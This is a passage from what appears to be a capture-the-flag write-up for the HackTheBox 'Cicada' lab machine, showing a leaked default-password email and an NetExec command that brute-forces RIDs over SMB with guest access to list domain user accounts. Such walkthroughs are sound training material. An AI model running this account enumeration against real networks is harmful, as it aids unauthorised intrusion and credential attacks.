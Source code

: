 ```
Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

So, I now had a password but no username to use it with. However, this is where the `rid-bruting` comes into play.

### RID Bruteforcing
Running the command `nxc smb $IP -u 'Guest' -p '' --rid-brute` I was able to get a list of all of the accounts in the domain.

![RID Bruteforcing](images/rid-brute.png)

I only want user accounts though, so I simply appended this extra bit onto the end of the command to filter out the rest of the unnecessary information:\
`| grep SidTypeUser | cut -d: -f2 | cut -d \\ -f2 | cut -d' ' -f1 > users.lst`

This saves the list of the user accounts into a file named **users.lst**.

This was the list of usernames I ended up with:
```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
$DUPLICATE-453
david.orelious
emily.oscars
```

